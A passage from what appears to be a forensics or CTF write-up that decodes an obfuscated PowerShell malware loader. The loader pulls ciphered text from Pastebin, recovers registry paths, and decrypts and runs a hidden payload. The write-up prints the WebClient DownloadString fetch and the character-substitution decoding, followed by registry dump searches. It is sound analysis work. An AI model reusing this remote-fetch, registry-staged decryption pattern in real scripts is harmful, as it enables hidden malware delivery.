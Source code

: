 ```powershell

C:\1\fate.exe;
```

The script does this:

1. Fetch some "ciphered" text from [Pastebin](https://pastebin.com/raw/rBXHdE85) and replace certain characters with others. 
2. Decode that base64 blob and extract a second value from the registry path that it decodes to.
3. Decode a second embedded "ciphertext" by replacing characters again.
4. Decode that second base64 blob and get a value from a second registry path.
5. Using openssl, decrypt whatever file the 2nd registry path points to using whatever value we got from the first registry path as the password.
6. Execute the decrypted payload.

I used powershell to decipher the payloads because it was an easy copy+paste away:

```powershell
PS C:\> $SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");

PS C:\> echo $SCOP
SEtMTTpcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcVGFibGV0UENcQmVsbA==

PS C:\> $TWR =  "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");

PS C:\> echo $TWR
SEtMTTpcU09GVFdBUkVcTWljcm9zb2Z0XFdiZW1cVG93ZXI=
```

Decoding those gives us two registry paths:

- `HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell`
- `HKLM:\SOFTWARE\Microsoft\Wbem\Tower`

Looking in the registry JSON was a pain because it was all on one line, so I used `json.tool` to format it, then grep to find the Values:

```shell
$ cd Registry/
$ cat SOFTWARE_ROOT.json | python -mjson.tool > pretty.json
$ grep -A8 'Microsoft\\\\Windows\\\\TabletPC\\\\Bell' pretty.json
                                    "KeyPath": "ROOT\\Microsoft\\Windows\\TabletPC\\Bell",
                                    "KeyName": "Bell",
                                    "LastWriteTimestamp": "/Date(1617231990846)/",
                                    "SubKeys": [],
                                    "Values": [
                                        {
                                            "ValueName": "Blast",
                                            "ValueType": "RegSz",
                                            "ValueData": "M4RK_MY_W0Rd5",
$ grep -A8 'Microsoft\\\\Wbem\\\\Tower' pretty.json
                            "KeyPath": "ROOT\\Microsoft\\Wbem\\Tower",
                            "KeyName": "Tower",
                            "LastWriteTimestamp": "/Date(1617231936549)/",
                            "SubKeys": [],
                            "Values": [
                                {
                                    "ValueName": "Off",
                                    "ValueType": "RegSz",
                                    "ValueData": "\\EOTW\\151.txt",
```
